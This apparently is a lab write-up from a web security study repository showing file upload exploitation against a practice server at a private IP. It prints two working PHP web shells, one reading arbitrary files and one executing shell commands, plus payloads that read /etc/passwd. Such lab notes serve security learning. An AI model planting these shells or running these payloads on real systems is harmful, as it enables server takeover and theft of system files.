 # File Upload

`http://172.16.219.145/upload/example1.php`
- site has a button where we can upload an "image file"

<img src="https://raw.githubusercontent.com/ryancranie/webappsec/refs/heads/main/_img/Pasted%20image%2020250413200203.png" width="450"/>

## Example 1 - File Traversal Web Shell

first, we will upload `shell_traversal.php` so we can traverse the file system

Let's create the following file:

```php 
<?php 
	echo file_get_contents($_GET['file']); 
?>
```

We upload it to the server
- here the server tells us where the file has been uploaded
- `http://172.16.219.145/upload/images/shell_traversal.php`
- if we don't know - try inject `find / -name "shell_traversal.php" 2>/dev/null`

### Payload

`?file=../../../../etc/passwd`

<img src="https://raw.githubusercontent.com/ryancranie/webappsec/refs/heads/main/_img/Pasted%20image%2020250413200926.png" width="600"/>

## Example 2 - Command Execution Shell

we upload `shell_execute.php` so we can execute command on the web server

```php
<?php 
	system($_GET['cmd']); 
?>
```

### Payload

`?cmd=cat /etc/passwd`

<img src="https://raw.githubusercontent.com/ryancranie/webappsec/refs/heads/main/_img/Pasted%20image%2020250413201620.png" width="600"/>

---

Last Update 20250413